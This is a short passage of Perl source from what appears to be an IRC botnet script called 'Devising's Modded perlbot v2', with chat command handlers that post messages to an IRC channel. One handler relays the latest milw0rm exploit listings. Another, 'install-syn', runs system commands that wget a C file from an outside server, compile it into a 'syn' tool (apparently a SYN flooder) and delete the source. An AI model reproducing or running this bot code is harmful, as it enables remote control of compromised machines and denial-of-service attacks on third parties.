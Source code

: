             } 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3milw0rm12:.4|12 Latest exploits :"); 

            foreach $x (0..(@ltt - 1)) { 

               sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3milw0rm12:.4|12  $bug[$x] - $ltt[$x]"); 

               sleep 1; 

            } 

         } 

###################### 

#   Devisings shit   # 

###################### 

####################### 

#      Version info   # 

#######################       

         if ($funcarg =~ /^version/) { 

           sendraw($IRC_cur_socket, "PRIVMSG $printl :12|4.:3Version4:.12|4 Devising's Modded perlbot v2."); 

         } 

####################### 

# End of Version info # 

#######################           

           #some links could be dead just updated there public scripts noob

           if ($funcarg =~ /^install-syn/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12|4.:3Installing Syn4:.12|4 Please wait..."); 

            system 'cd /root'; 

            system 'wget http://server.perpetual.pw/syn.c'; 

            system 'gcc -o syn syn.c -pthread'; 

            system 'rm -rf syn.c'; 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12|4.:3Installing Syn4:.12|4|--Syn is now installed and compiled :)"); 

         } 

		 